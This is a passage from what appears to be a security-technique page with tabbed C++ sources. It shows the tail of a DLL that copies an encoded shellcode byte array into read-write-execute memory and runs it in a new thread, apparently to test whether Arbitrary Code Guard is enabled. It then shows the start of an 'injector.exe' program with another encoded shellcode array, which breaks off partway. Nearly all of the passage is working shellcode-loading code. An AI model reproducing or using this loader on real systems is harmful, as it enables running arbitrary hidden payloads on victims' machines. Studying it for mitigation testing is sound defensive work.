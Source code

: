 ```cpp
				"\xa4\x1c\x68\xef\x4a\xe2\xd8\xd0\x2c\xb1\xff\x63\xb2\x26\xd1"
				"\xe0\x2d\x25\x5e\xd7\x8a\x67\x93\xad\xc8\x15\xfb\x9b\xaa\x5e"
				"\x48\xb9\xa8\x96\xfe\x86\x32\x2a\x40\x87\xad\x96\xb2\xea\x3f"
				"\xa0\xd0\xfd\xa5\x1c\x6e\xe3\xf0\x2f\x18\xa9\xed\xcd\xff\xfa"
				"\x3a\x73\xce\xb8\xb6\x5c\xe6\xe3\x22\x6a\xca\xa9\x6f\xf1\x9e"
				"\xe3\x29\xd4\x70\xb9\xad\x44\xe4\xea\xf0\x39\x79\xb6\x13\xe2"
				"\x41\xff\x32\x95\xe7\x92\xde\x42\x8d\x90\x7b\x2b\xd1\xb7\xa5"
				"\x94\x58\xea\xfa\xc7\x30\xe0\xec\x1d\xf7\x2b\x9e\x62\x2c\xe3"
				"\xec\x1c\x05\xa8\x7b\x2b\x95\xa0\xb8\x54\x37\x46\x37\xa2\x61"
				"\xa0\x56\x51\xc9\x84\x7c\xd4\x45\xad\x65\xf7\xd6\xa3\x7a\x2b"
				"\x90\xb8\xad\xa7\x97\x22\x10\x2b\x6f\x34\xbc\x4d\xf3\x93\xb2"
				"\x66\xa1\x21\xa4\xe2\x7e\xea\xf2\xe9\xd8\x1e\x2c\x55\x37\x63"
				"\x3a\x91\x7a\xee\x33\xfd\x41\x77\x33\xa2\x57\x8b\xfc\x5c\xe6"
				"\xee\xf2\xc9\xd8\x68\x15\x5c\x04\x3b\xde\x5f\xf1\x1e\x39\x55"
				"\x3f\x66\x3b\x29\x90\xe1\xa5\xa5\xdd\xcf\x1f\x2b\x90\xe1\xec"
				"\x1d\xff\xf2\x3a\x7b\xd8\x68\x0e\x4a\xe9\xf5\x36\x1a\x50\x8b"
				"\xe1\x44\xff\xf2\x99\xd7\xf6\x26\xa8\x39\xea\xa3\x7a\x63\x1d"
				"\xa5\xc8\x05\x78\xa2\x13\x63\x19\x07\xba\x4d\xff\xf2\x3a\x7b"
				"\xd1\xb1\xa5\xe2\x7e\xe3\x2b\x62\x6f\x29\xa1\x94\x7f\xee\xf2"
				"\xea\xd1\x5b\x95\xd1\x81\x24\x84\xfe\xd8\xd0\x3e\x55\x41\x68"
				"\xf0\x25\xd1\x5b\xe4\x9a\xa3\xc2\x84\xfe\x2b\x11\x59\xbf\xe8"
				"\xe3\xc1\x8d\x05\x5c\x71\xe2\x6b\xea\xf8\xef\xb8\xdd\xea\x61"
				"\xb4\x22\x80\xcb\xe5\xe4\x57\x5a\xad\xd0\x14\x41\x90\xb8\xad"
				"\x94\x64\x5d\xae\x2b\x90\xe1\xec";

			PVOID buffer = VirtualAlloc(NULL, sizeof shellcode, (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);
			WriteProcessMemory(GetCurrentProcess(), buffer, shellcode, sizeof shellcode, NULL);
			CreateThread(NULL, 0, (LPTHREAD_START_ROUTINE)buffer, NULL, 0, NULL);
			MessageBoxA(NULL, "ACG not enabled - shellcode executed", "ACG not enabled - shellcode executed", 0);
		}
		case DLL_THREAD_ATTACH:
		case DLL_THREAD_DETACH:
		case DLL_PROCESS_DETACH:
			break;
    }
    return TRUE;
}


```
{% endtab %}

{% tab title="injector.exe" %}
```cpp
#include <iostream>
#include <Windows.h>

int main(int argc, char *argv[]) {
	unsigned char shellcode[] =
		"\x48\x31\xc9\x48\x81\xe9\xc6\xff\xff\xff\x48\x8d\x05\xef\xff"
		"\xff\xff\x48\xbb\x1d\xbe\xa2\x7b\x2b\x90\xe1\xec\x48\x31\x58"
		"\x27\x48\x2d\xf8\xff\xff\xff\xe2\xf4\xe1\xf6\x21\x9f\xdb\x78"
		"\x21\xec\x1d\xbe\xe3\x2a\x6a\xc0\xb3\xbd\x4b\xf6\x93\xa9\x4e"
		"\xd8\x6a\xbe\x7d\xf6\x29\x29\x33\xd8\x6a\xbe\x3d\xf6\x29\x09"
		"\x7b\xd8\xee\x5b\x57\xf4\xef\x4a\xe2\xd8\xd0\x2c\xb1\x82\xc3"
		"\x07\x29\xbc\xc1\xad\xdc\x77\xaf\x3a\x2a\x51\x03\x01\x4f\xff"
		"\xf3\x33\xa0\xc2\xc1\x67\x5f\x82\xea\x7a\xfb\x1b\x61\x64\x1d"
		"\xbe\xa2\x33\xae\x50\x95\x8b\x55\xbf\x72\x2b\xa0\xd8\xf9\xa8"
		"\x96\xfe\x82\x32\x2a\x40\x02\xba\x55\x41\x6b\x3a\xa0\xa4\x69"
		"\xa4\x1c\x68\xef\x4a\xe2\xd8\xd0\x2c\xb1\xff\x63\xb2\x26\xd1"
		"\xe0\x2d\x25\x5e\xd7\x8a\x67\x93\xad\xc8\x15\xfb\x9b\xaa\x5e"
		"\x48\xb9\xa8\x96\xfe\x86\x32\x2a\x40\x87\xad\x96\xb2\xea\x3f"
```